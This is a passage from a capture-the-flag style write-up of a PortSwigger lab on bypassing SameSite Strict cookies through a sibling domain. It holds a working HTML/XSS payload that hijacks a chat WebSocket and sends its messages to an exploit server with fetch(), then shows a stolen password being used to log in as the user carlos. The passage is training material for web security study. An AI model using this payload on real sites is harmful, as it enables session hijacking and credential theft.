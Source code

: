 **Finally, we need to create a HTML payload that redirect victim to our XSS payload:**
```html
<html>
    <head>
        <title>CSRF-9</title>
    </head>
    <body>
        <script>
            document.location = 'https://cms-0a200002035e04ccc0cea048008a00db.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a200002035e04ccc0cea048008a00db.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=a';
        </script>
    </body>
</html>
```

Let's host it and test it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205041.png)

Exploit server access log:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205103.png)

It worked, as the request was initiated from the vulnerable sibling domain, the browser considers this a same-site request.

Let's deliver the payload to the victim!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205223.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205237.png)

**URL and HTML decoded:**
```json
{"user":"Hal Pline","content":"Hello, how can I help?"}
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it's 2h7bk07yd56ma6mv70cn"}
{"user":"You","content":"Thanks, I hope this doesn't come back to bite me!"}
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"}
```

Found user `carlos`'s password: `2h7bk07yd56ma6mv70cn`

Now we can login as user `carlos`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205554.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-9/images/Pasted%20image%2020230113205604.png)

I'm user `carlos`!

# What we've learned:

1. SameSite Strict bypass via sibling domain